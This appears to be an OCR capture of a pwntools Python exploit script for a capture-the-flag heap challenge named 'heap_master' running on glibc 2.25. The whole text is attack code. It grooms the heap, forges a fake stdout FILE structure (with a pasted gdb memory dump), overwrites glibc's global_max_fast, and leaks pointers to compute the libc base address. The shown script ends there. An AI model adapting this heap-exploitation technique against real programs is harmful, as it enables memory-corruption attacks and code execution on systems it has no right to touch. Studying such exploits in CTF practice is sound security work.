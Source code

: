 ```python
context.arch='amd64'
p=process('./heap_master',env={'LD_PRELOAD':"/glibc/x64/2.25/lib/libc-2.25.so"})
#p=process("./heap_master",env={'LD_PRELOAD':"./libc.so.6"})
libc=ELF("/glibc/x64/2.25/lib/libc-2.25.so")
#libc=ELF("./libc.so.6")

##FAKE STDOUT 's off:0x620
for x in range(14):
	edit(0x610+x*0x10,p64(0)+p64(0x301))
edit(0x900,p64(0x21)*0x30)
for x in range(14):
	free(0x620+0x10*(13-x))
	add(0x2f8)
# so lets fill the fake chunk like... ooh , our fake_Stdout start's off:0x1000
'''
0x7ffff7dd5600 <_IO_2_1_stdout_>:	0x00000000fbad2887	0x00007ffff7dd5683
0x7ffff7dd5610 <_IO_2_1_stdout_+16>:	0x00007ffff7dd5683	0x00007ffff7dd5683
0x7ffff7dd5620 <_IO_2_1_stdout_+32>:	0x00007ffff7dd5683	0x00007ffff7dd5683
0x7ffff7dd5630 <_IO_2_1_stdout_+48>:	0x00007ffff7dd5683	0x00007ffff7dd5683
0x7ffff7dd5640 <_IO_2_1_stdout_+64>:	0x00007ffff7dd5684	0x0000000000000000
0x7ffff7dd5650 <_IO_2_1_stdout_+80>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd5660 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x00007ffff7dd48c0
0x7ffff7dd5670 <_IO_2_1_stdout_+112>:	0x0000000000000001	0xffffffffffffffff
0x7ffff7dd5680 <_IO_2_1_stdout_+128>:	0x000000000a000000	0x00007ffff7dd6760
0x7ffff7dd5690 <_IO_2_1_stdout_+144>:	0xffffffffffffffff	0x0000000000000000
0x7ffff7dd56a0 <_IO_2_1_stdout_+160>:	0x00007ffff7dd4780	0x0000000000000000
0x7ffff7dd56b0 <_IO_2_1_stdout_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd56c0 <_IO_2_1_stdout_+192>:	0x00000000ffffffff	0x0000000000000000
0x7ffff7dd56d0 <_IO_2_1_stdout_+208>:	0x0000000000000000	0x00007ffff7dd1440

'''



edit(0x620,p64(0xfbad1800)+"\x00".ljust(0x10,'\x00')+'\x00\x50')
#edit(0x640,'\x83\x56')
for x in range(4):
	edit(0x648+x*8,'\x83\x56')
edit(0x660,'\x84')
edit(0x668,'\x00'*0x20)
edit(0x688,'\xc0\x48')
edit(0x690,p64(1)+p64(0xffffffffffffffff)+p64(0x000000000a000000)+'\x60\x67')
edit(0x6b0,p64(0xffffffffffffffff)+p64(0)+'\x80\x47')
edit(0x6c8,p64(0)*3+p64(0x00000000ffffffff)+p64(0)*2+'\x40\x14')
#D0ne.... so let's get the control of global fast max
edit(0,p64(0)+p64(0x91)+'\x00'*0x88+p64(0x21)*5)
free(0x10)
edit(0x10,p64(0)+'\xc0\x67')
add(0x88)

# get it!
edit(0x620,p64(0xfbad1800)+p64(0x17e1))
edit(0x620+0x17d8,p64(0x21)*0x20)

free(0x630)
p.read(0x10)
magic=u64(p.read(8))
p.read(0x10)
base=u64(p.read(8))-(0x7ffff7dd4b68-0x7ffff7a37000)-(0x7ffff7a37000-0x7ffff7a3b000)
log.warning(hex(magic))
log.warning(hex(base))

libc.address=base
```